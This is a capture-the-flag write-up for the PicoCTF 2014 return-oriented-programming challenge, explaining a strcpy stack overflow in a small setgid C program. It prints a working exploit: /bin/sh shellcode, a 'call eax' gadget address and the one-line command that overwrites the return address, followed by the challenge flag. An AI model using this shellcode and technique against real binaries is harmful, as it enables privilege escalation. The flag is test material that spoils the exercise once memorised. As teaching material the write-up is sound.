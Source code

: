 #Return Oriented Programming 1

This is a challenge from PicoCTF 2014 on return oriented programming. We are given a vulnerable C code shown below.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

#Solution
What should come to our attention is the use of ```strcpy()``` function. This does not check for the length of the string we put in, so we are able to overwrite the content of the stack.
As the name of the challenge suggests, we are to implement ROP, and what we need here is a so-called ROP-gadget that alters the value of the instruction pointer %eip 
in order to execute our shellcode.
Conveniently, the ```strcpy``` function returns the pointer to the string argument (=buf), and therefore, the value of %eax is exactly the address of buf in the stack.
What we can manipulate here is string %eax points to, so we want to set %eip to %eax(by executing the instruction ```call %eax```). We can find such ROP-gadgets using objdump as well as grep
```
objdump -d rop1 | grep "call.*eax"
```
The first one in the list is ```8048d86```, so let's use this one.

Next, we need to figure out the distance between the address of %eax and the saved %eip in the stack. If we could overwrite this %eip to point to the instruction address of ROP-gadget,
we can set %eip to the address of %eax. On the server, we were equipped with gdb. Set a breakpoint at vuln() and run the program.
```
(gdb) b vuln
```
We can now check the address of saved eip in the stack.
```
(gdb) info frame
```
This should print something like the following (the address may differ)
```
Saved registers: 
 ebp at 0xffffd728, eip at 0xffffd72c
```
Ok, now let' see where %eax points to when it returns from ```strcpy()```
```
(gdb) info register eax
eax         0xfffd6e0
```
Take the difference, and this gives ```76```. This tells us that we should pass in a string of length 76 to fill the gap, which is then followed by the 4 bytes giving the address of the ROP gadget we identified previously. 
Not over yet. The string we pass in must contain the shellcode we want to execute. Let's use this one
```
”\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh”
```
Note that this system is little-endian, meaning we had to reverse the order of the hex digits: this applies to the address of the ROP-gadget too. 
Finally, we just feed this to the program as follows
```
./rop1 $(python -c 'print "\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"+ "a"*38 + "\x86\x8d\x04\x08" ')
```
The flag is ```theres_no_need_to_guess```
